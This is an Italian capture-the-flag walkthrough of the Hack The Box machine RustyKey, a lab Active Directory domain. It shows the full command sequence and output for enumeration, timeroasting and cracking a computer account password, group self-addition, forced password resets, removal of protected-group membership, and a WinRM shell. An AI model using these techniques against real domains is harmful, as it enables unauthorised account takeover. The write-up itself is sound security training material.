










# **RustyKey**

Machine Information

```text
As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: rr.parker / 8#t5HE8L!W3A
```

## **Recon**

Si avvia una prima scansione sulle porte TCP.

```bash
$ nmap -p- --min-rate 1000 10.129.232.127                              

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49681/tcp open  unknown
49682/tcp open  unknown
49685/tcp open  unknown
49701/tcp open  unknown
```

Si scansionano alcune delle porte TCP per rilevare la versioni dei servizi esposti.

```bash
$ nmap -p53,88,135,139,389,445,464,593,636 -sCV 10.129.232.127         

PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-10 04:19:11Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

La presenza di servizi quali Kerberos, LDAP e SMB indicano che siamo in un contesto di Active Directory.

Si aggiorna il file /etc/hosts inserendo un record per l'associazione dell'indirizzo IP della macchina target con **domain controller name**, **domain name** e **hostname**.

```bash
10.129.232.127 DC.rustykey.htb rustykey.htb DC
```

## Information Gathering as rr.parker

Con le credenziali di **rr.parker** si verifica l'accesso ai servizi SMB e LDAP. 

In entrambi casi il messaggio restituito e' di `STATUS_NOT_SUPPORTED` che indica che le operazioni richieste non sono supportate per funzionalita' disattive o per problematiche con l'autenticazione.

Allora si tenta l'accesso ai servizi tramite Kerberos.

```bash
# TGT request as rr.parker
$ impacket-getTGT 'rustykey.htb'/'rr.parker':'8#t5HE8L!W3A'

[*] Saving ticket in rr.parker.ccache
```

Si utilizza il TGT per accedere ai servizi.

```bash
# SMB
$ KRB5CCNAME="$PWD"/rr.parker.ccache nxc smb --use-kcache DC.rustykey.htb 
SMB         DC.rustykey.htb 445    DC               [*]  x64 (name:DC) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.rustykey.htb 445    DC               [+] RUSTYKEY.HTB\rr.parker from ccache

# LDAP
$ KRB5CCNAME="$PWD"/rr.parker.ccache nxc ldap --use-kcache DC.rustykey.htb
LDAP        DC.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        DC.rustykey.htb 389    DC               [+] rustykey.htb\rr.parker from ccache
```

Si enumerano **users** e **shares**.

```bash
# Users
$ KRB5CCNAME="$PWD"/rr.parker.ccache nxc smb --use-kcache DC.rustykey.htb --users
SMB         DC.rustykey.htb 445    DC               [*]  x64 (name:DC) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.rustykey.htb 445    DC               [+] RUSTYKEY.HTB\rr.parker from ccache 
SMB         DC.rustykey.htb 445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         DC.rustykey.htb 445    DC               Administrator                 2025-06-04 22:52:22 0       Built-in account for administering the computer/domain 
SMB         DC.rustykey.htb 445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         DC.rustykey.htb 445    DC               krbtgt                        2024-12-27 00:53:40 0       Key Distribution Center Service Account 
SMB         DC.rustykey.htb 445    DC               rr.parker                     2025-06-04 22:54:15 0        
SMB         DC.rustykey.htb 445    DC               mm.turner                     2024-12-27 10:18:39 0        
SMB         DC.rustykey.htb 445    DC               bb.morgan                     2025-06-24 18:46:41 0        
SMB         DC.rustykey.htb 445    DC               gg.anderson                   2025-06-24 18:46:41 0        
SMB         DC.rustykey.htb 445    DC               dd.ali                        2025-06-24 18:46:40 0        
SMB         DC.rustykey.htb 445    DC               ee.reed                       2025-06-24 18:46:40 0        
SMB         DC.rustykey.htb 445    DC               nn.marcos                     2024-12-27 11:34:50 0        
SMB         DC.rustykey.htb 445    DC               backupadmin                   2024-12-30 00:30:18 0        
SMB         DC.rustykey.htb 445    DC               [*] Enumerated 11 local users: RUSTYKEY
```

```bash
# Shares
$ KRB5CCNAME="$PWD"/rr.parker.ccache nxc smb --use-kcache DC.rustykey.htb --shares
SMB         DC.rustykey.htb 445    DC               [*]  x64 (name:DC) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.rustykey.htb 445    DC               [+] RUSTYKEY.HTB\rr.parker from ccache 
SMB         DC.rustykey.htb 445    DC               [*] Enumerated shares
SMB         DC.rustykey.htb 445    DC               Share           Permissions     Remark
SMB         DC.rustykey.htb 445    DC               -----           -----------     ------
SMB         DC.rustykey.htb 445    DC               ADMIN$                          Remote Admin
SMB         DC.rustykey.htb 445    DC               C$                              Default share
SMB         DC.rustykey.htb 445    DC               IPC$            READ            Remote IPC
SMB         DC.rustykey.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         DC.rustykey.htb 445    DC               SYSVOL          READ            Logon server share 
```

Sono presenti solo **shares** di default.

Si analizza il dominio AD con BloodHound.

```bash
# Collect data as rr.parker
$ bloodhound-python -d rustykey.htb -ns 10.129.232.127 -u 'rr.parker' -p '8#t5HE8L!W3A' -k -c all --zip
```

Non si sono rilevati particolari percorsi di attacco a partire da *rr.parker*.

Si enumerano i **computers** presenti in AD.

```bash
# Get Computers
$ nxc ldap DC.rustykey.htb --use-kcache --computers
LDAP        DC.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        DC.rustykey.htb 389    DC               [+] rustykey.htb\rr.parker from ccache 
LDAP        DC.rustykey.htb 389    DC               [*] Total records returned: 16
LDAP        DC.rustykey.htb 389    DC               DC$
LDAP        DC.rustykey.htb 389    DC               Support-Computer1$
LDAP        DC.rustykey.htb 389    DC               Support-Computer2$
LDAP        DC.rustykey.htb 389    DC               Support-Computer3$
LDAP        DC.rustykey.htb 389    DC               Support-Computer4$
LDAP        DC.rustykey.htb 389    DC               Support-Computer5$
LDAP        DC.rustykey.htb 389    DC               Finance-Computer1$
LDAP        DC.rustykey.htb 389    DC               Finance-Computer2$
LDAP        DC.rustykey.htb 389    DC               Finance-Computer3$
LDAP        DC.rustykey.htb 389    DC               Finance-Computer4$
LDAP        DC.rustykey.htb 389    DC               Finance-Computer5$
LDAP        DC.rustykey.htb 389    DC               IT-Computer1$
LDAP        DC.rustykey.htb 389    DC               IT-Computer2$
LDAP        DC.rustykey.htb 389    DC               IT-Computer3$
LDAP        DC.rustykey.htb 389    DC               IT-Computer4$
LDAP        DC.rustykey.htb 389    DC               IT-Computer5$
```

Si visualizzano e analizzano su BloodHound.



Si individua il computer **IT-COMPUTER3$** che possiede il privilegio di **AddSelf** sul gruppo **HELPDESK**.



Si analizza il gruppo **HELPDESK** che ha privilegi di **ForceChangePassword** su alcuni account utente.



Per prima cosa si tenta di prendere il controllo di **IT-COMPUTER3$** per poi aggiungersi al gruppo **HELPDESK** e sfruttare i privilegi di questo gruppo su alcuni account utente.

## Timeroasting

Si tenta il **timeroasting attack** per ottenere il valore di hash della password di **IT-COMPUTER3$**.

Si esegue lo script `timeroast.py` di [SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast/tree/main).

```bash
$ python3 timeroast.py DC.rustykey.htb
1000:$sntp-ms$6cacbdfd9757f93ea2b6901c19c57f5c$1c0111e900000000000a2f854c4f434cec951b34432f5a60e1b8428bffbfcd0aec9559da330e7289ec9559da330ea330
1104:$sntp-ms$65c2cd75aec614ad97066915d600cdd4$1c0111e900000000000a2f854c4f434cec951b3441ac43c0e1b8428bffbfcd0aec9559daed72d93bec9559daed72f76e
1103:$sntp-ms$09fb143855aa48cc3e718e08d8ddd90e$1c0111e900000000000a2f854c4f434cec951b3441a4dd9ae1b8428bffbfcd0aec9559daed6b7315ec9559daed6b9148
1106:$sntp-ms$c069c5aaa85124a8d4ef57326cdfad76$1c0111e900000000000a2f854c4f434cec951b34433987e1e1b8428bffbfcd0aec9559daf731337eec9559daf7316781
1105:$sntp-ms$68a1afa513b64c9566c35e2692ac49d4$1c0111e900000000000a2f854c4f434cec951b344338334de1b8428bffbfcd0aec9559daf72fd687ec9559daf7301648
1107:$sntp-ms$2e3a280a0a4d9f5fe452b0c988ae9a2f$1c0111e900000000000a2f854c4f434cec951b34435714b9e1b8428bffbfcd0aec9559daf74ecdc3ec9559daf74ef2ac
1118:$sntp-ms$68e3540f86bafc7afa0d606413fcc090$1c0111e900000000000a2f854c4f434cec951b3442db17e9e1b8428bffbfcd0aec9559db06b2130dec9559db06b22c37
1119:$sntp-ms$3d123a1ce2f63670202fe4b3378431b9$1c0111e900000000000a2f854c4f434cec951b3442db8348e1b8428bffbfcd0aec9559db06b27609ec9559db06b29af2
1120:$sntp-ms$6e10745dcbc0b91fc8d76be2c13a221b$1c0111e900000000000a2f854c4f434cec951b34419e59f2e1b8428bffbfcd0aec9559db117d4b85ec9559db117db38a
1121:$sntp-ms$ef57f8f03646dae5ad9f2435284e39b5$1c0111e900000000000a2f854c4f434cec951b3441a01d41e1b8428bffbfcd0aec9559db117f2148ec9559db117f76d8
1124:$sntp-ms$1492edf30d9ad4838ad2ceb7c05101fd$1c0111e900000000000a2f854c4f434cec951b3441dcff49e1b8428bffbfcd0aec9559db11bc2331ec9559db11bc4ed0
1123:$sntp-ms$bb5778936b6e7bfaf84fa4b0a42839ac$1c0111e900000000000a2f854c4f434cec951b3441d6931fe1b8428bffbfcd0aec9559db11b5b1feec9559db11b5dd9c
1122:$sntp-ms$20c2f1ce66267874ac7b9f1686db283e$1c0111e900000000000a2f854c4f434cec951b3441c635d9e1b8428bffbfcd0aec9559db11a5474cec9559db11a5870d
1125:$sntp-ms$483b4e934989e15ee0659d69f059aee6$1c0111e900000000000a2f854c4f434cec951b34421b4d63e1b8428bffbfcd0aec9559db11fa2ad3ec9559db11fa97e1
1126:$sntp-ms$59c8ee36d5f5051816a5ec6d3868e87b$1c0111e900000000000a2f854c4f434cec951b343fb80742e1b8428bffbfcd0aec9559db13afb63bec9559db13afe387
1127:$sntp-ms$87a226c17966a45ec9fc996f97d2f667$1c0111e900000000000a2f854c4f434cec951b343fb8602ee1b8428bffbfcd0aec9559db13b015dcec9559db13b03c73
```

Il formato restituito e' per il cracking offline con Hashcat.

```python
def hashcat_format(rid : int, hashval : bytes, salt : bytes) -> str:
  """Encodes hash in Hashcat-compatible format (with username prefix)."""
  return f'{rid}:$sntp-ms${hexlify(hashval).decode()}${hexlify(salt).decode()}'
```

Si cerca il **RID** corrispondente al computer **IT-COMPUTER3$**.



> [SID components](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers)

Si utilizza lo script `timecrack.py` di [SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast/tree/main) per il cracking della password memorizzata nel file **1125.hash**.



Si cerca online un possibike fix per l'errore generato dalla lettura del dizionario **rockyou.txt**.



E si aggiorna la funzione **main** di `timecrack.py` specificando l'**encoding** del dizionario.



Si esegue lo script.

```bash
$ python3 timecrack.py 1125.hash /usr/share/wordlists/rockyou.txt
[+] Cracked RID 1125 password: Rusty88!

1 passwords recovered.
```

Si ottiene **IT-COMPUTER3$:Rusty88!**.

Si verifica la validita' delle credenziali.

```bash
$ nxc smb -u 'IT-COMPUTER3' -p 'Rusty88!' -k DC.rustykey.htb
SMB         DC.rustykey.htb 445    DC               [*]  x64 (name:DC) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.rustykey.htb 445    DC               [+] rustykey.htb\IT-COMPUTER3:Rusty88!
```

## AddSelf

```bash
$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```



## ForceChangePassword

```bash
$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k set password 'BB.MORGAN' 'Password123!'   
[+] Password changed successfully!

$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k set password 'EE.REED' 'Password123!'   
[+] Password changed successfully!

$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k set password 'GG.ANDERSON' 'Password123!'   
[+] Password changed successfully!
```

Ma con tutti e tre gli account quando si richiede un TGT viene restituito l'errore **KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)**.

Si continua l'analisi su BloodHound e si ha che tutti e tre gli account sono membri del gruppo **PROTECTED USERS**.



> This security group is designed as part of a strategy to effectively protect and manage credentials within the enterprise. Members of this group automatically have non-configurable protections applied to their accounts. **Membership in the Protected Users group is meant to be restrictive and proactively secure by default**. **The only method to modify these protections for an account is to remove the account from the security group**.
> - [Protected Users Security Group](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn466518(v=ws.11)?redirectedfrom=MSDN)

Con i privilegi di **HELPDESK** si tenta di rimuovere i gruppi **IT** e **SUPPORT** dal gruppo **PROTECTED OBJECTS**.



```bash
$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'           
[-] IT removed from PROTECTED OBJECTS

$ bloodyAD --host 'DC' -d 'rustykey.htb' -u 'IT-COMPUTER3' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
```

Si richiede il TGT per ogni account.

```bash
# Set Password for BB.MORGAN as IT-COMPUTER3$

# Get TGTs for BB.MORGAN
$ impacket-getTGT 'rustykey.htb'/'bb.morgan':'Password123!'
[*] Saving ticket in bb.morgan.ccache
```

Si definisce il file di configurazione Kerberos.

```bash
$ LOWER_REALM='rustykey.htb'; UPPER_REALM=$(echo "$LOWER_REALM" | tr '[:lower:]' '[:upper:]'); DC_HOSTNAME='DC'

$ cat << EOF | sed -e "s/{{REALM_PLACEHOLDER}}/$UPPER_REALM/g" -e "s/{{realm_placeholder}}/$LOWER_REALM/g" -e "s/{{dc_hostname}}/$DC_HOSTNAME/g" > custom_krb5.conf 
[libdefaults]
    default_realm ={{REALM_PLACEHOLDER}}
    dns_lookup_realm = true
    dns_lookup_kdc = true
               
[realms]
    {{REALM_PLACEHOLDER}} = {
        kdc = {{dc_hostname}}.{{realm_placeholder}}
        admin_server = {{dc_hostname}}.{{realm_placeholder}} 
        default_domain = {{realm_placeholder}}  
    }
                
[domain_realm]
    {{realm_placeholder}} = {{REALM_PLACEHOLDER}}
    .{{realm_placeholder}} = {{REALM_PLACEHOLDER}} 
EOF
```

E si accede alla shell come **bb.morgan**.

## Shell as BB.MORGAN

```bash
$ KRB5_CONFIG="/tmp/rustykey.htb/custom_krb5.conf" KRB5CCNAME="$PWD"/bb.morgan.ccache evil-winrm -i 'DC.rustykey.htb' -r 'rustykey.htb'
```

Si accede al file **user.txt**.

```powershell
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> cat user.txt
4c4395174439ab564f7bc1b3ec96e413
```
